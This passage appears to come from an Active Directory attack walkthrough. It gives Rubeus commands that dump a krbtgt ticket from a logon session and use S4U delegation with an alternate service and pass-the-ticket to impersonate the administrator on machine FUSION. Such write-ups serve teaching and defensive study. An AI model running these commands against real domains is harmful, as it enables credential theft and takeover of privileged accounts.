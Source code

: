 The ticket that we want is for the service "krbtgt", so we run `Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap` to dump it, you can use "/outfile:<ticketname.kirbi>" to save it to a file.

![](/assets/images/active-directory/synchro_tgt.png)

Now to ask for a tgs impersonting an account inside FUSION$ we run `Rubeus.exe s4u /ticket:<ticket> /msdsspn:<service>/<machine> /impersonateuser:<user to impersonate>`, if we want an alternate service we add the flag `/altservice:<service>`, also if we want to performa a pass the ticket we add `/ptt`, so we run here `Rubeus.exe s4u /ticket:<base64 ticket> /impersonateuser:administrator /msdsspn:time/FUSION /altservice:host /ptt`, you will see Rubeus doing the work, and at the end the message "[+] Ticket successfully imported!".
